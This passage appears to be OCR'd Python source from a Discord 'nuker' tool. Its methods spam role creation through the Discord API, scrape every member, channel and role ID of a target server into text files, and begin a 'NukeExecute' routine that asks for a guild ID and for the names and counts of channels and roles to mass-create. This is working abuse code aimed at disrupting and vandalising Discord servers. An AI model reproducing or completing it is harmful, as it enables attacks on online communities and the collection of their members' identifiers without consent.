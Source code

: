     def SpamRoles(self, guild, name):
        while True:
            json = {'name': name}
            r = requests.post(f'https://discord.com/api/v8/guilds/{guild}/roles', headers=headers, json=json)
            if 'retry_after' in r.text:
                time.sleep(r.json()['retry_after'])
            else:
                if r.status_code == 200 or r.status_code == 201 or r.status_code == 204:
                    print(f"{self.colour}[\033[37m+{self.colour}]\033[37m Created Role{self.colour} {name}\033[37m")
                    break
                else:
                    break

    async def Scrape(self):
        guild = input(f'{self.colour}> \033[37mGuild ID{self.colour}: \033[37m')
        await client.wait_until_ready()
        guildOBJ = client.get_guild(int(guild))
        members = await guildOBJ.chunk()

        try:
            os.remove("Scraped/members.txt")
            os.remove("Scraped/channels.txt")
            os.remove("Scraped/roles.txt")
        except:
            pass

        membercount = 0
        with open('Scraped/members.txt', 'a') as m:
            for member in members:
                m.write(str(member.id) + "\n")
                membercount += 1
            print(f"\n{self.colour}[\033[37m!{self.colour}]\033[37m Scraped {self.colour}{membercount}\033[37m Members")
            m.close()

        channelcount = 0
        with open('Scraped/channels.txt', 'a') as c:
            for channel in guildOBJ.channels:
                c.write(str(channel.id) + "\n")
                channelcount += 1
            print(f"{self.colour}[\033[37m!{self.colour}]\033[37m Scraped {self.colour}{channelcount}\033[37m Channels")
            c.close()

        rolecount = 0
        with open('Scraped/roles.txt', 'a') as r:
            for role in guildOBJ.roles:
                r.write(str(role.id) + "\n")
                rolecount += 1
            print(f"{self.colour}[\033[37m!{self.colour}]\033[37m Scraped {self.colour}{rolecount}\033[37m Roles")
            r.close()

    async def NukeExecute(self):
        guild = input(f'{self.colour}> \033[37mGuild ID{self.colour}: \033[37m')
        channel_name = input(f"{self.colour}> \033[37mChannel Names{self.colour}: \033[37m")
        channel_amount = input(f"{self.colour}> \033[37mChannel Amount{self.colour}: \033[37m")
        role_name = input(f"{self.colour}> \033[37mRole Names{self.colour}: \033[37m")
        role_amount = input(f"{self.colour}> \033[37mRole Amount{self.colour}: \033[37m")
        print()

